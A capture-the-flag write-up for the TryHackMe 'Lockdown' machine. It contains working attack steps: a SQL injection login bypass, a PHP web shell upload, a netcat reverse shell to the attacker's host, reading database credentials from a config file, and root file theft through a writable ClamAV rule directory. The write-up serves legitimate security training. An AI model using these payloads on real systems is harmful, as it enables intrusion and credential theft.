







# Lockdown - TryHackMe Writeup

**Difficulty: Medium			      
**TL;DR:** Exploiting SQL injection in CTS-QR admin panel, uploading a webshell, extracting database credentials, lateral movement to user cyrus, and privilege escalation via sudo with ClamAV rule manipulation.

## Target
- Machine: `contacttracer.thm`
- Date: 2026-1-1
- Environment: TryHackMe / CTF

## Steps:

### 1. Initial scan:

#### 1.1 Port Scanning

```bash
nmap -sV -sC -T4 -Pn -p22,80 contacttracer.thm

22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
    Port 22: OpenSSH 8.2p1 Ubuntu
    Port 80: Apache httpd 2.4.41


#### 1.2 Web Application Enumeration

Main website: Login page for CTS-QR v1.0

Path: `/admin/login.php`

the Post request for `/admin/login`:


Identified potential SQL injection vulnerability in login form.

### 2. SQL Injection Exploitation.

#### 2.1 Testing SQL Injection

On the login page `/admin/login.php`, used the following injection:

```sql
username = Admin' OR 1=1-- -
password = any
```
Result: Successfully bypassed authentication and accessed the admin dashboard.



#### 2.2  Exploring Admin Dashboard
- Discovered CTS-QR v1.0 contact tracing system
- Found functionality to upload system images
- Upload feature accepts various file types, including PHP files




### 3. Web Shell Upload & Initial Access

#### 3.1 Creating PHP Web Shell

Created a simple PHP web shell:

```php
<?php system($_GET['cmd']); ?>
```

#### 3.2 Uploading Web Shell

- Uploaded the PHP file as a "system image"

- File accessible at: `http://contacttracer.thm/uploads/[filename].php`
    
- Open the system image in new tab After logout 
#### 3.3 Testing Command Execution

```URL
http://contacttracer.thm/uploads/1767100260_cmd.php?cmd=id
```
Result: Command execution successful, confirming RCE vulnerability.


#### 3.4 Establishing Reverse Shell

Used Netcat to establish a reverse shell:

```URL
http://contacttracer.thm/uploads/1767100260_cmd.php?cmd=busybox nc YOUR_IP 4444 -e bash
```

Listener setup:

```bash
nc -lnvp 4444
```

#### 3.5 Shell Stabilization

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
Ctrl+Z
stty raw -echo && fg
```



### 4. Lateral Movement 

#### 4.1 Database Credential Discovery

Found database credentials in:
```bash
cat /var/www/html/classes/DBConnection.php
```


dentials:

    Username: `cts`

    Password: `REDACTED`

#### 4.2 Database Enumeration

```bash
mysql -u cts -p
```
```sql
mysql> show databases;
mysql> show tables;
mysql> select * from users;
```

#### 4.3 Password Cracking

Used online hash cracking tools
Cracked Password for user `cyrus` :



#### 4.4 User Switching & User Flag

First flag at `/home/cyrus/user.txt`:

```bash
su cyrus

cat /home/cyrus/user.txt
```

### 5. Privilege Escalation

#### 5.1 Sudo Privilege Enumeration

```bash
sudo -l
```

Result:
```bash
Matching Defaults entries for cyrus on ip-10-82-185-81:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User cyrus may run the following commands on ip-10-82-185-81:                                              
    (root) /opt/scan/scan.sh
```

#### 5.2 Analyzing the Script

```bash
cat /opt/scan/scan.sh 
```

Script Content:

```bash
#!/bin/bash

read -p "Enter path: " TARGET

if [[ -e "$TARGET" && -r "$TARGET" ]]
  then
    /usr/bin/clamscan "$TARGET" --copy=/home/cyrus/quarantine
    /bin/chown -R cyrus:cyrus /home/cyrus/quarantine
  else
    echo "Invalid or inaccessible path."
fi
```

Script runs `clamscan` as root and it can be forced to detect any file as infected by manipulating ClamAV rules.
Rules directory `/var/lib/clamav` has world-writable permissions (777).

#### 5.3 ClamAV Rule Manipulation

Created a rule file to detect files containing specific patterns:
```bash
cat > /var/lib/clamav/rule.yar << 'EOF'
rule TEST
{
  strings:
    $a = "root"
    $b = "THM"
    
  condition:
    $b or $a
}
EOF
```

Test the Exploit:

```bash
sudo /opt/scan/scan.sh

Enter path: /root/root.txt

/root/root.txt: YARA.TEST.UNOFFICIAL FOUND
/root/root.txt: copied to '/home/cyrus/quarantine/root.txt'
```


